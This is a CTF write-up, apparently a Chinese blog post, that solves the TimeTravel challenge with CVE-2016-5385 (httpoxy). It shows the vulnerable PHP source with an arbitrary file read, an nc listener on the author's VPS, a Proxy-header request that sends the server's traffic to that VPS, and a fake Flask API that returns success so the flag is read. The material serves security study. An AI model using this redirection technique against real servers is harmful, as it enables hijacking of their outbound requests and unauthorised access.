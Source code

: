 ```yaml
---
title: CVE-2016-5385 HTTP_PROXY
published: 2024-09-22
description: "HTTP代理使服务端重定向到恶意服务"
image: ""
tags: ["CVE", "WEB", "CTF"]
category: WEB
draft: false
---
```


# 前言

通过 **[V&N2020 公开赛]TimeTravel**这道题了解一下CVE-2016-5385

# 做题过程

## 分析
拿到题目后给了源码，需要传入flag参数访问内网api才能获取flag

```php
<?php
error_reporting(0);
require __DIR__ . '/vendor/autoload.php';

use GuzzleHttp\Client;

highlight_file(__FILE__);

if(isset($_GET['flag'])) {
    $client = new Client();
    $response = $client->get('http://127.0.0.1:5000/api/eligible');
    $content = $response->getBody();
    $data = json_decode($content, TRUE);
    if($data['success'] === true) {
      echo system('/readflag');
    }
}

if(isset($_GET['file'])) {
    highlight_file($_GET['file']);
}

if(isset($_GET['phpinfo'])) {
    phpinfo();
}
```

这里刚好传入file参数利用`highlight_file()`读取文件，一开始顺着`require __DIR__ . '/vendor/autoload.php'`把include的文件都读了，粗略地审计了一遍，发现是第三方库，没有可控点。于是读取`/proc/1/cmdline`返回

```bash
#/proc/1/cmdline
/bin/sh -c /start.sh

#start.sh内容如下
#!/usr/bin/env bash

chmod +x /readflag
chmod +s /readflag
echo $FLAG > /flag && export FLAG=not_flag && FLAG=not_flag && cd /srv/

chmod 700 /flag

python3 /srv/app.py &


php-fpm &

service nginx start

tail -F /dev/null
```

由此发现python服务，读取它。乍一看的思路以为是要修改靶机时间，然后就卡住了。

```python
from flask import Flask
import datetime
import json
app = Flask(__name__)

@app.route('/api/eligible')
def source():
    current_year = int(datetime.datetime.now().strftime("%Y"))
    if current_year < 2050:
        return json.dumps({"success": False})
    else:
        return json.dumps({"success": True})

if __name__ == "__main__":
    app.run(host='127.0.0.1')
```

## 信息搜集

注意到上面引入了这个`use GuzzleHttp\Client;`，google之`GuzzleHttp vuln`，注意到了[Security vulnerabilities in specific guzzlehttp/guzzle versions](https://github.com/thephpleague/oauth2-client/issues/1022)。在里面发现了[HTTP Proxy header vulnerability](https://github.com/advisories/GHSA-m6ch-gg5f-wxx3)，这个看起来和题目相关。

>PHP through 7.0.8 does not attempt to address RFC 3875 section 4.1.18 namespace conflicts and therefore does not protect applications from the presence of untrusted client data in the HTTP_PROXY environment variable, which might allow remote attackers to redirect an application's outbound HTTP traffic to an arbitrary proxy server via a crafted Proxy header in an HTTP request, as demonstrated by (1) an application that makes a getenv('HTTP_PROXY') call or (2) a CGI configuration of PHP, aka an "httpoxy" issue.
>

大概意思就是攻击者可以添加`Proxy`头部，服务端由此创建一个`HTTP_PROXY`的env，服务端经过getenv('HTTP_PROXY')调用，或者交由CGI处理请求，会使请求被重定向到攻击者指定的代理服务上。

## 概念验证

先在vps监听一个端口
```bash
root@iZ7xv8mogva855e0yhraz6Z:~# nc -lvnp 10001
listening on [any] 10001 ...
```

添加Proxy头部，设置flag参数，发起请求观察vps情况

![poc](./poc.png "poc")

```bash
root@iZ7xv8mogva855e0yhraz6Z:~# nc -lvnp 10001
listening on [any] 10001 ...
connect to [172.28.228.144] from (UNKNOWN) [117.21.200.176] 9863
GET http://127.0.0.1:5000/api/eligible HTTP/1.1
Host: 127.0.0.1:5000
Proxy-Connection: Keep-Alive
User-Agent: GuzzleHttp/6.2.0 curl/7.64.0 PHP/5.6.23


```

可以看到服务端成功被代理到vps，由此可以想到通过代理来重定向服务端的python服务到我们自己的服务，修改json值

## 漏洞利用

在vps部署服务

```python
from flask import Flask
import datetime
import json
app = Flask(__name__)

@app.route('/api/eligible')
def source():
    return json.dumps({"success": True})

if __name__ == "__main__":
    app.run(host='0.0.0.0',port=10001)
```

再次发送请求，即可获取flag

```bash
root@iZ7xv8mogva855e0yhraz6Z:~/workspace# python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:10001
 * Running on http://172.28.228.144:10001
Press CTRL+C to quit
117.21.200.176 - - [22/Sep/2024 21:33:41] "GET http://127.0.0.1:5000/api/eligible HTTP/1.1" 200 -
```
